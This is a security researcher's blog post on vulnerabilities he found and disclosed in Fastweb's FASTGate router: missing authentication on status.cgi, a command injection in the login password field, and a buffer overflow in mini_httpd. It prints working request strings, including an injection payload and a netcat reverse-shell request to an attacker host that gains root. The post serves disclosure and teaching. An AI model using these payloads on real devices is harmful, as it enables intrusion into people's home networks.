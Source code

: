 ```yaml
---
layout: post
title:  "Hacking into a FASTGate router with a command injection (and a bunch of other vulnerabilities)"
subtitle: "Missing authentication, command injection in login page, buffer overflow on the web-server. Is this real life?"
date:   2018-10-13 22:14:42 +0100
author: "santoru"
visible: 1
comments: true
toc: true
---
```


This blog post describes how I found a couple of vulnerabilities in the FASTGate modem/router provided by Fastweb, an Italian telecommunication company, to its clients. Thanks to these vulnerabilities I was able to bypass the authentication layer as well as execute arbitrary code via command injection and get a reverse shell back to the router.
All vulnerabilities have been disclosed to Fastweb and are fixed in newer versions of the firmware.

## FASTGate: the latest generation modem from Fastweb
Fastweb[^1] is an Italian telecommunications company that provides internet services. Since around march 2017 the company started to ship a new modem to its client: the FASTGate[^2].
Working as a penetration tester, and having the possibility to test it out, I started to analyze its web interface in order to find some vulnerabilities that could give me some unintended access to it. Goal of the night: popping up a shell!\ 
First step was to set up Burp Suite as a proxy and navigate a bit through the webpages to save some request and response.
The first screen I got was the login panel, as shown in figure 1.

{% include image.html url="img/fastgate/login.png" description="Figure 1 - Login panel" %}

### Broken authentication layer
I logged in and started to browse some pages and execute actions in order to understand how requests were handled. The first thing I noticed was that the login request did not return any cookie nor any token to the client and this made me suspicious: did they implement some authentication at all? \
They didn't.

What I noticed was that the web application was simply sending AJAX requests to a cgi binary, called `status.cgi`, using a parameter called `nvget` to specify the action.
For example, the following GET request was enough to list all devices connected to the router, even in the past, with their assigned IP, their MAC address and their hostname:
```
GET http://192.168.1.254/status.cgi?nvget=pc_list
```
Just to have a nice output to show, I developed a python script that parses the json response and display it:

{% include image.html url="img/fastgate/userenum.png" description="Figure 2 - Devices enumeration" %}

### Unauthenticated command injection in login page
With this trivial _authentication bypass_ via the `status.cgi` binary, I went back to the login request and started to manually fuzz both the username and password fields. After few tests I noticed that the response of the server, after putting a single quotation mark into the password field, printed an interesting line:
```
HTTP/1.0 200 OK
sh: syntax error: unterminated quoted string
Content-type: text/html
```

Uhm.. what? Am I dreaming? Is my controlled input really used to execute a shell command with no sanitization at all?
I wanted to see if I could actually run some commands, so I tried executing `ping` which is usually a command installed on any distribution:
```
GET /status.cgi?_=1512070412178&cmd=3&nvget=login_confirm&password='$(ping)'&remember_me=1&username=admin HTTP/1.1
```
The response was the confirmation I was looking for:
{% include image.html url="img/fastgate/ping.png" description="Figure 3 - Ping command" %}


As shown, I can successfully send arbitrary command by adding to the password input the text ```'$(`command`)'```.
The impact of this vulnerability is full code execution on the router, but it's not clear what privileges I'm running with, having a shell to quickly interact with the router would be ideal!

#### Getting the reverse shell
The command execution is cool, but can we go further? Can we get a real shell into the system? Of course we can! After some enumeration done via the command injection, I noticed that the router shipped several `netcat` binaries, one of which was luckily compiled with support to the `-e` parameter that, quoting the man page, `execute external program after accepting a connection or making connection`.
Let's use this `nc` binary to run a reverse shell:
```
GET /status.cgi?cmd=3&nvget=login_confirm&password=AA'$(`/statusapi/usr/bin/nc%20LHOST%20LPORT%20-e%20/bin/bash`)AAremember_me=1&username=admin HTTP/1.1
```
This was enough to get a full reverse shell into the system, and guess what? The process is running as `root` so we get full access to the device. 

{% include image.html url="img/fastgate/poc.png" description="Figure 4 - Exploit executed to get a shell" %}


## Conclusions
For documentation purpose, the vulnerable software version that I tested is the `v1.0.1b`, with firmware version `0.00.47_FW_200_Askey2017-05-17 17:31:59`.\
It must be noted that in order to exploit the vulnerability the attacker must be authenticated to the Wi-Fi network, as the admin interface is exposed on the internal network.

{% include image.html url="img/fastgate/version.png" description="Figure 5 - Vulnerable version" %}


The communication with Fastweb didn't go very smooth. I tried to contact them multiple time to report this vulnerability but after an initial ack they stopped any communication with me.
Few weeks after my emails, they released a new firmware version that addressed most of the vulnerabilities:
- Login request now returns a session token that it is used to authenticate all requests to `status.cgi`, so it seems that they fixed the trivial "bypass".
- They initially added a CSRF protection by setting a cookie called `XSRF-TOKEN`: when sending a request, the web application send both the cookie and a `X-XSRF-TOKEN` header with the same value. There's no actual validation on the token value, no matter what the user decide to sent via these two headers, if the cookie matches the token value, the server will accept it.
- The command injection was still present in a bunch of updates, but was eventually fixed.

At the time, they didn't have any responsible disclosure program nor any specific security contact, but they did create one shortly after my first email. The Responsible Disclosure[^3] webpage they created has an Hall-of-Fame, but I was not mentioned there.


## Bonus: mini\_httpd v1.27 / thttpd v2.27 buffer overflow
One of the first things I noticed reading the response from the router was the `Server` header: `mini_httpd/1.27 07Mar2017`.\
According to the developer's website of `mini_httpd`[^4], it seemed to be the latest available version at the time and I couldn't find any public information about known vulnerabilities on it.

Since the source code was available, I started to do some analysis and I noticed a trivial buffer overflow in the `htpasswd.c` file, which turned out to be a custom and simplified version of the original _htpasswd_ utility developed for the Apache HTTP Server and used to`'create and update the flat-files used to store usernames and password for basic authentication of HTTP users`.\
The simplified version developed by ACME Laboratories had a buffer overflow vulnerability since the username parameter provided through the command line interface was copied into a buffer without any bound check. The vulnerability could be exploited to execute malicious payloads if the utility can be used remotely to set up, for example, an account: In this case an attacker can craft an exploit and gain code execution into the vulnerable system.\
After disclosing the vulnerability to the maintainer of the web-server an update that fixed the vulnerability was released through the developer's website.

### Disclosure timeline of the Buffer Overflow
- 01 December 2017 - Contacted the developer to ask how to report security findings
- 12 December 2017 - Sent the details of the vulnerability to the developer
- 13 December 2017 - Developer acknowledged the vulnerability
- 13 December 2017 - CVE assigned: _CVE-2017-17663_
- 04 February 2018 - Update released for mini\_httpd & thttpd and [advisory published](https://acme.com/updates/archive/199.html) for the vulnerability.

---

## Footnotes
[^1]: [Fastweb S.p.A.](https://www.fastweb.it/)
[^2]: [FASTGate](https://www.fastweb.it/myfastweb/assistenza/guide/FASTGate/)
[^3]: [Fastweb Responsible Disclosure](https://www.fastweb.it/corporate/responsible-disclosure/)
[^4]: [mini_httpd - small HTTP server](https://acme.com/software/mini_httpd/)